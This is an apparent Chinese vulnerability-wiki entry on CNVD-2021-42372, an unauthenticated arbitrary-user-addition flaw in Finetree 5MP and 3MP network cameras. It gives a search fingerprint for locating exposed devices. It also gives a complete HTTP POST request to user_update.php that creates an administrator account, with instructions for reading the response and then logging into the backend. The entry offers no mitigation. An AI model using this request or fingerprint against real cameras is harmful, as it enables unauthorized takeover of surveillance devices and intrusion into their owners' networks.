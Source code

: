 # Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

<a-checkbox checked>Finetree 5MP</a-checkbox></br>

<a-checkbox checked>Finetree 3MP</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Finetree-5MP-Network-Camera"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1650596915704-1a1f5f17-da0a-46f7-878f-4e45d228b7b2.png)

存在漏洞的文件 user_pop.php

![img](/assets/PeiQi-Wiki/img/1650596947183-6e5162c8-5039-47f7-9008-e1f06106a72f.png)

```java
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

![img](/assets/PeiQi-Wiki/img/1650597037790-9c10f375-9a20-4cb0-960e-c41c4962278d.png)

返回200即为添加成功，返回804则为用户重复，利用添加的账户就可以登录后台了

![img](/assets/PeiQi-Wiki/img/1650597298546-243cca11-64a9-40ca-8a1f-acc98d75c74a.png)